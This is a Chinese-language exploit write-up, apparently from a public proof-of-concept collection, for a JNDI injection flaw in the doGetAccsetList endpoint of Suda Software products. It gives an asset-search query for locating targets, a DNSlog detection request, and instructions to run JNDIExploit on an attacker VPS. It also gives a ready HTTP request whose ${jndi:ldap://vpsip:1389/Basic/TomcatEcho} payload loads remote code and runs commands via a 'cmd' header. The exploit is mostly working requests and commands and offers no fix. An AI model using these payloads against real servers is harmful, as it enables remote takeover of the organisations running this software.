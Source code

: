 # 速达软件技术（广州）有限公司多款产品doGetAccsetList存在JNID注入漏洞

# 一、漏洞简介
速达软件技术（广州）有限公司多款产品doGetAccsetList存在JNID注入漏洞,攻击者可通过该漏洞获取服务器权限。

# 二、影响版本
+ 速达软件技术（广州）有限公司多款产品

# 三、资产测绘
+ hunter`web.body="速达软件技术（广州）有限公司"`
+ 特征

![1699201284929-aa4ce68c-746e-4b42-b2a6-5ee57011daf5.png](./img/Vh0u6SfE9CYrencQ/1699201284929-aa4ce68c-746e-4b42-b2a6-5ee57011daf5-024504.png)

![1699201312048-19df152b-1307-4860-87ac-d74fe2d646ae.png](./img/Vh0u6SfE9CYrencQ/1699201312048-19df152b-1307-4860-87ac-d74fe2d646ae-424849.png)

# 四、漏洞复现
1. 获取dnslog

```plain
s7c4np.dnslog.cn
```

![1705076444377-d57cc238-fa42-4943-b568-cd8f02ef3dbb.png](./img/Vh0u6SfE9CYrencQ/1705076444377-d57cc238-fa42-4943-b568-cd8f02ef3dbb-942093.png)

2. 检测是否存在漏洞

```plain
GET /login/login!doGetAccsetList.action?report=${jndi:ldap://s7c4np.dnslog.cn} HTTP/1.1
Host: 
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=95B4E05547D0C692CF0D0DD69AC5241B
Connection: close
```

![1705076482745-7d180eeb-6296-47ee-927f-7091624b3756.png](./img/Vh0u6SfE9CYrencQ/1705076482745-7d180eeb-6296-47ee-927f-7091624b3756-118860.png)

漏洞利用

[JNDIExploit-1.4-SNAPSHOT.jar](https://www.yuque.com/attachments/yuque/0/2024/jar/1622799/1709222146364-082044c2-ac87-44a7-811f-9736dc52da70.jar)

将`JNDIExploit-1.4-SNAPSHOT.jar`上传到`vps`

```plain
java -jar JNDIExploit-1.4-SNAPSHOT.jar -i vpsip
```

![1705075364344-caf730e8-f910-4617-87ae-297aec05dbeb.png](./img/Vh0u6SfE9CYrencQ/1705075364344-caf730e8-f910-4617-87ae-297aec05dbeb-351326.png)

```plain
GET /login/login!doGetAccsetList.action?report=${jndi:ldap://vpsip:1389/Basic/TomcatEcho} HTTP/1.1
Host: 
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
cmd: whoami
Cookie: JSESSIONID=95B4E05547D0C692CF0D0DD69AC5241B
Connection: close
```

![1705076557686-ad6fd9ba-b8ba-48ba-92df-0f088046963b.png](./img/Vh0u6SfE9CYrencQ/1705076557686-ad6fd9ba-b8ba-48ba-92df-0f088046963b-079061.png)



> 更新: 2024-02-29 23:55:46  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/wyzfyvuxdlu610a7>